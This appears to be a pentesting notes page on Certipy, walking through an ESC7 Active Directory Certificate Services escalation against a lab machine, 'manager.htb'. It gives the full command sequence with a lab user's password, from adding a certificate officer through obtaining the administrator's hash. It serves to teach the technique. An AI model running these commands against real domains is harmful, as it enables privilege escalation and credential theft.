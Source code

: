 # Certipy

## About

[Certipy](https://github.com/ly4k/Certipy) is a tool for Active Directory Certificate Services enumeration and abuse. It's is an offensive tool for enumerating and abusing Active Directory Certificate Services (AD CS). If you're not familiar with AD CS and the various domain escalation techniques,from the github, a good resource is: [Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2) by [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin\_).

## Install

### Using pip

```bash
pip3 install certipy-ad
```

## Usage

We can use the `find` argument to enumerate AD CS certificate templates, certificate authorities and other configurations and with `-vulnerable` it can show us what "ESC#"(Escalation number, for a full list, checkout the Github they are vulnerable to. In this example, it's Vulnable to ESC7,  which is when a user has the `Manage CA` or `Manage Certificates` access right on a CA.

```bash
certipy-ad find -vulnerable -u raven@dc01.manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.139.52 -stdout
```

<figure><img src="../../.gitbook/assets/image (596).png" alt=""><figcaption></figcaption></figure>

So in this example we have Ravens credentials and can upgrade her account to have additional permissions. If you only have the `Manage CA` access right, you can grant yourself the `Manage Certificates` access right by adding your user as a new officer.

```bash
certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```

The `SubCA` template can be enabled on the CA with the `-enable-template` parameter. By default, the `SubCA` template is enabled.

```bash
certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```

<figure><img src="../../.gitbook/assets/image (597).png" alt=""><figcaption></figcaption></figure>

If we have fulfilled the prerequisites for this attack, we can start by requesting a certificate based on the `SubCA` template. This request will be denied, but we will save the private key and note down the request ID. With our `Manage CA` and `Manage Certificates`, we can then issue the failed certificate request with the `ca` command and the `-issue-request <request ID>` parameter.

```bash
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb
```

<figure><img src="../../.gitbook/assets/image (598).png" alt=""><figcaption></figcaption></figure>

With our `Manage CA` and `Manage Certificates`, we can then issue the failed certificate request with the `ca` command and the `-issue-request <request ID>` parameter.

```bash
certipy-ad ca -ca 'manager-DC01-CA' -issue-request 17 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```

<figure><img src="../../.gitbook/assets/image (599).png" alt=""><figcaption></figcaption></figure>

And finally, we can retrieve the issued certificate with the `req` command and the `-retrieve <request ID>` parameter.

```bash
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -retrieve 17
```

<figure><img src="../../.gitbook/assets/image (600).png" alt=""><figcaption></figcaption></figure>

Now that we have the Administrator.pfx file we can obtain the admin hash using the `auth` argument. [From the github](https://github.com/ly4k/Certipy#authenticate) "The `auth` command will use either the PKINIT Kerberos extension or Schannel protocol for authentication with the provided certificate. Kerberos can be used to retrieve a TGT and the NT hash for the target user, whereas Schannel will open a connection to LDAPS and drop into an interactive shell with limited LDAP commands. See the [blog posts](https://research.ifcr.dk/) for more information on when to use which option"

```bash
certipy-ad auth -pfx administrator.pfx -username 'administrator' -domain 'manager.htb' -dc-ip 10.129.139.52
```

<figure><img src="../../.gitbook/assets/image (601).png" alt=""><figcaption></figcaption></figure>
